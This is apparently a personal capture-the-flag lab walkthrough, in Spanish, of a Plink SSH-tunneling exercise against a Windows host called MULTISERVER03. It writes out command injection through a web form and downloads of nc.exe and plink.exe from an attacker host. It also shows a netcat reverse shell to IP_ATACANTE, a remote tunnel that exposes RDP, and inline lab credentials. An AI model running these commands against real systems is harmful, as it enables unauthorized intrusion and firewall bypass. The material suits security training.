 # Walk: Port Redirection and SSH Tunneling - Plink - MULTISERVER03

## Fecha: 25/03/2025
## Host: MULTISERVER03
## IP: 192.168.xxx.64
## Objetivo
Follow the steps in this section to gain an RDP connection to MULTISERVER03. What's the flag found in **flag.txt** file on the rdp_admin's desktop?
## Herramientas

## Procedimiento y comandos
#### Paso 1: Enumeramos
>Observamos que MULTISERVER03 ahora tiene una aplicación web en el puerto TCP 80 expuesta. Todos los demás puertos de entrada están bloqueados por un firewall, por lo que RDP ya no está disponible
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.4.2-Plink-Windows]
└─# nmap -sV --open -Pn 192.168.111.64
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-25 15:34 -03
Nmap scan report for 192.168.111.64
Host is up (0.23s latency).
Not shown: 999 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.15 seconds
                                                               
```
#### Paso 2: Obtenemos un reverse shell
1. Iniciamos apache 
```
sudo systemctl start apache2
```
2. Buscamos en el directorio raiz **_nc.exe_**
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.4.2-Plink-Windows]
└─# find / -name nc.exe 2>/dev/null
/run/live/rootfs/filesystem.squashfs/usr/share/windows-resources/binaries/nc.exe
/usr/lib/live/mount/rootfs/filesystem.squashfs/usr/share/windows-resources/binaries/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```
3. Ingresamos en _**http://192.168.111.64/umbraco/forms.aspx**_
4. Ejecutamos en el inpu:
```
powershell wget -Uri http://IP_ATACANTE/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
5. Configuramos un receptor nc:
```
nc -lnvp 4446
```
6. Ejecutamos el comando para generar la conexion:
```
C:\Windows\Temp\nc.exe -e cmd.exe IP_ATACANTE 4446
```
#### Paso 3: Configuramos el tunel Dinamico remoto con plink
1. Ubicamos en kali plink y copiamos en nuestro directorio.. servimos con python.
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.4.2-Plink-Windows]
└─# find / -name plink.exe 2>/dev/null
/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.4.2-Plink-Windows/plink.exe
/run/live/rootfs/filesystem.squashfs/usr/share/windows-resources/binaries/plink.exe
/run/live/persistence/sdb3/rw/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.4.2-Plink-Windows/plink.exe
/usr/lib/live/mount/rootfs/filesystem.squashfs/usr/share/windows-resources/binaries/plink.exe
/usr/lib/live/mount/persistence/sdb3/rw/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.4.2-Plink-Windows/plink.exe
/usr/share/windows-resources/binaries/plink.exe

cp /usr/share/windows-resources/binaries/plink.exe .

python3 -m http.server 80
```
2. Descargamos desde la maquina victima plink:
```
c:\windows\system32\inetsrv>powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
c:\windows\system32\inetsrv>
```
3. Ejecutamos plink:
```
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4

C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
#### Paso 3: Obtenemos el flag
1. Desde kali comprobamos la configuracion del tunel:
```
┌──(kali㉿kali)-[~]
└─$ ss -ntplu
ss -ntplu
Netid State  Recv-Q Send-Q                   Local Address:Port    Peer Address:Port                  Process                                                   
udp   UNCONN 0      0                              0.0.0.0:60086        0.0.0.0:*                                                                               
udp   UNCONN 0      0                              0.0.0.0:54700        0.0.0.0:*                                                                               
udp   UNCONN 0      0                                 [::]:60086           [::]:*                                                                               
udp   UNCONN 0      0       [fe80::2c8d:9401:bfba:f]%wlan0:546             [::]:*                                                                               
udp   UNCONN 0      0                                    *:51535              *:*                      users:(("firefox-esr",pid=3113,fd=106))                  
tcp   LISTEN 0      128                          127.0.0.1:9833         0.0.0.0:*                                                                               
tcp   LISTEN 0      128                            0.0.0.0:22           0.0.0.0:*                                                                               
tcp   LISTEN 0      128                               [::]:22              [::]:*
```
2.  Nos conectamos desde nuestro kali por rdp a 127.0.0.1:9833
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.4.2-Plink-Windows]
└─# xfreerdp /u:"rdp_admin" /p:"P@ssw0rd\!" /v:127.0.0.1:9833 /dynamic-resolution +clipboard /cert:ignore
```
3. Abrimos el archivo flag.txt del escritorio:
```
OS{6e1a3****************************17b6e}
```
